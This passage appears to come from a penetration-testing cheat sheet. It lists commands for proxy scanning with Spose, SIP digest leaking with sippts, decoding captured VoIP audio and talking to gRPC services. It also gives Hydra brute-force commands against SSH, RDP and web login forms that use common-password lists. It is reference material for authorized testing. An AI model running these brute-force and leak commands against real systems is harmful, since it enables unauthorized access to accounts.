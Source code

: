 Spose Commands:

* [Spose](https://github.com/aancw/spose)

```bash
python spose.py --proxy "http://[IP]:3128" --target "[IP]"
```
### VoIP - 5060

Resources:
* [Pentesting VoIP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip)
* [Sippts](https://github.com/Pepelux/sippts)

Commands:

```bash
python3 sipdigestleak.py -i "[TARGET-IP]"
```

Decoding Raw File:

```bash
# The `8000` is the 8000 HZ
sox -t raw -r 8000 -v 4 -c 1 -e mu-law 2138.raw out.wav
```
### gRPC - 50051

```bash
# Interacting through CLI
grpcurl --plaintext "[URL]:[PORT]"

# Interacting through GUI
./grpcui --plaintext "[IP]:[PORT]"
```
## Brute-Force

### Hydra

```bash
# SSH
hydra -L usernames.txt -P passwords.txt "ssh://[IP]"

# RDP
hydra -L usernames.tct -P passwords.txt "rdp://[IP]"

# WEB POST
hydra -L usernames.txt -P "/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt" "[IP]" http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

# WEB GET
sudo hydra -l user -P "/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt" "[IP]" http-get "/"
```
### CrackMapExec
